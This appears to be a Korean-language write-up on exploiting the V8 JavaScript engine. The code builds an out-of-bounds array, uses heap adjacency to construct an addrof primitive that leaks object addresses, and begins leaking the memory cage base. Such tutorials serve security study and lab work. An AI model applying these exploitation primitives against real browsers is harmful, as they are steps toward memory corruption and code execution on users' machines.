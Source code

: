 ### Get address of arbitrary object

```js
let oob_arr;
let obj_arr;
let tmp_obj = {};

(function layout() {
    oob_arr = [1.1];
    obj_arr = [tmp_obj];
})();

// generate oob array
oob_arr.length = 0x1000;
console.log(`[+] oob_arr.length == ${hex(oob_arr.length)}`);

% DebugPrint(oob_arr);
% DebugPrint(obj_arr);
```

함수 내부에서 `oob_arr`과 `obj_arr`을 연속해서 정의하면 메모리 상에서 인접한 위치에 할당된다. 따라서 `oob_arr`을 통해 `obj_arr`의 메모리에 접근하여 값을 읽고 쓸 수 있다.

![image](https://github.com/user-attachments/assets/68a24430-8826-4833-ae4d-fc18e7baeb69)

![image](https://github.com/user-attachments/assets/be3358d0-df82-4dbd-b304-cf788baa374c)

![image](https://github.com/user-attachments/assets/3e37052b-28b0-431f-9ba5-52a15186ca54)

```js
// get (compressed) address of |obj|
function addrof(obj) {
    obj_arr[0] = obj;
    return ftoi(oob_arr[4]) & 0xffffffffn;
}

// addrof test
let tmp_obj_addr = addrof(tmp_obj);
console.log(`[+] tmp_obj_addr == ${hex(tmp_obj_addr)}`);
```

![image](https://github.com/user-attachments/assets/1f4ed82a-777e-4c87-b9d3-1154d1e1a198)

### Get base address of virtual memory cage

```js
let oob_arr;
let obj_arr;
let tmp_obj = {};
let typed_arr;

(function layout() {
    oob_arr = [1.1];
    obj_arr = [tmp_obj];
    typed_arr = new BigUint64Array(1);
})();

// generate oob array
oob_arr.length = 0x1000;
console.log(`[+] oob_arr.length == ${hex(oob_arr.length)}`);

% DebugPrint(oob_arr);
% DebugPrint(typed_arr);
```
